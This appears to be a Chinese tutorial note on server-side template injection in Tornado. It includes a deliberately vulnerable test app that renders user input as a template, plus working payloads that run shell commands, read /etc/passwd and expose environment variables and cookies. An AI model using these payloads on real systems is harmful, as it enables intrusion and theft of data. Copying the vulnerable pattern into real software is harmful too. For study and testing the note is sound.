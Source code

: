 # Tornado的SSTI

---

Tornado 是一个用 Python 编写的高性能 Web 服务器和 Web 应用框架。它的特点是能够处理大量的并发连接，非常适合于实时 Web 应用程序。



先给一个测试代码

```python
import tornado.ioloop
import tornado.web
from tornado.template import Template

class IndexHandler(tornado.web.RequestHandler):
    def get(self):
        tornado.web.RequestHandler._template_loaders = {}#清空模板引擎

        with open('index.html', 'w') as (f):
            f.write(self.get_argument('name'))

        self.render('index.html')

app = tornado.web.Application(
    [('/', IndexHandler)],
)
app.listen(8888, address="127.0.0.1")
tornado.ioloop.IOLoop.current().start()
```

再有一个index.html文件就行

## 基础验证

```python
{{ 7*7 }}  

# 测试对象访问
{{ handler.settings }}  # 查看应用配置
```

获取一些信息手段

```python
# 读取系统环境变量
{{ ','.join(__import__("os").environ.keys()) }}

# 获取当前工作目录
{{ __import__("os").getcwd() }}
```

### Tornado语法

变量的处理

```python
{{ variable }}                {# 自动HTML转义 #}
{{ escape(variable) }}         {# 显式转义（等同默认行为） #}
{{ raw variable }}            {# 禁用转义输出原始HTML（危险操作） #}
{{ static_url("style.css") }} {# 静态文件URL生成 #}
```

注释的两种方式

```python
{# 单行注释 #}

{# 
  多行
  注释
#}
```

代码方式：

```python
{% set name = "Tornado" %}          {# 变量定义 #}
{% import "module.html" as mod %}   {# 导入模板模块 #}
```

![image-20250203234349134](https://gitee.com/bx33661/image/raw/master/path/image-20250203234349134.png)





**闭合的方式**

```python
{% if condition %}
  条件成立内容
{% elif other_condition %}
  其他条件
{% else %}
  默认内容
{% end %}


{% for item in items %}
  <p>{{ loop.index }} - {{ item }}</p>
  {% break %}          {# 中断循环 #}
  {% continue %}       {# 跳过本次循环 #}
{% empty %}            {# 空列表处理 #}
  <p>无数据</p>
{% end %}
```





## 注入手段

> 学习和收集到的一些思路

常规攻击

```py
{{ __import__("os").system("whoami") }}
{% raw __import__("os").system("whoami") %}
{{eval('__import__("os").popen("ls").read()')}}

#读取文件
{{ __import__("os").popen("cat /etc/passwd").read() }}
```

直接读文件

```python
{% extends "/etc/passwd" %}
{% include "/etc/passwd" %}
```



Tornado函数

```python
{{__import__("os").popen("ls").read()}}
```



利用RequestHandler:

> tornado.web.RequestHandler` 称为 `handler

```python
{{handler.get_argument('yu')}}   //比如传入?yu=123则返回值为123
{{handler.cookies}}  //返回cookie值
{{handler.get_cookie("data")}}  //返回cookie中data的值
{{handler.decode_argument('u0066')}}  //返回f，其中u0066为f的unicode编码
{{handler.get_query_argument('yu')}}  //比如传入?yu=123则返回值为123
{{handler.settings}}  //比如传入application.settings中的值
```



还有一些过滤



> 参考文章：
> https://forum.butian.net/share/2195
>
> https://www.ctfiot.com/102563.html
>
> https://zhuanlan.zhihu.com/p/13246882136